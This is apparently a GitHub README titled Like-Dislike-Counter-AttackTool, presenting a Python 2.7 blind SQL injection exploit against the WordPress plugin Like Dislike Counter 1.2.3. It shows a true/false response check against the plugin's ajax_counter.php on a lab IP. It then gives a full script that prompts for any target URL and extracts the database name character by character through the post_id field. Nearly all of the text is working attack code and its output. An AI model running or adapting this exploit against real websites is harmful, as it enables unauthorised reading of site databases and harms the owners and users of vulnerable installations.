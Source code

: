 # Like-Dislike-Counter-AttackTool  

### python 2.7.6  
### Module : requests  
### Target : Like Dislike Counter 1.2.3  
### Reference  
> [Noplanlife.com](http://noplanlife.com/?p=1339)  
> [Requests: HTTP for Humans](http://docs.python-requests.org/en/latest/)  
> [MKSecurity](http://www.muratkaya.com.tr/2017/02/21/very-simple-blind-sql-injection-python-2-7-x-script-template-for-peneteration-testers/)  

##### Blind SQL Injection 반응검사  
<pre><code>
>>> import requests
>>> url = "http://192.168.28.130/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php"
>>> payload1 = {'post_id' : '12 and 1=1', 'up_type' : 'like'}     # Expected Result is 1
>>> payload2 = {'post_id' : '12 and 1=2', 'up_type' : 'like'}     # Expected Result is 0
>>> r1 = requests.post(url, data = payload1)
>>> r2 = requests.post(url, data = payload2)
>>> r1.content
'1'
>>> r2.content
'0'
>>> print int(r1.content)
1
>>> print int(r2.content)
0
</code></pre>



###### It's a python 
<pre><code>
    import requests  
    import string  
    
    url = input("Input Target URL : ")

    if(url.startswith('http://') != 1) :
            url = "http://" + url

    dbName = []

    for x in range(1,11) :
            for y in range(32,127) :
                    #print 'x = '+str(x)+'   y = '+str(y)
                    brute_string = '12 and substring(database(),'+str(x)+',1) = char('+str(y)+')'
                    payload = {'post_id' : brute_string, 'up_type' : 'like'}
                    r = requests.post(url, data = payload)
                    blindRes = int(r.content)
    
                    if blindRes :
                            #print "The "+str(x)+"th word is : "+str(y)
                            dbName.append(chr(y))
                            break
    print dbName
</code></pre>
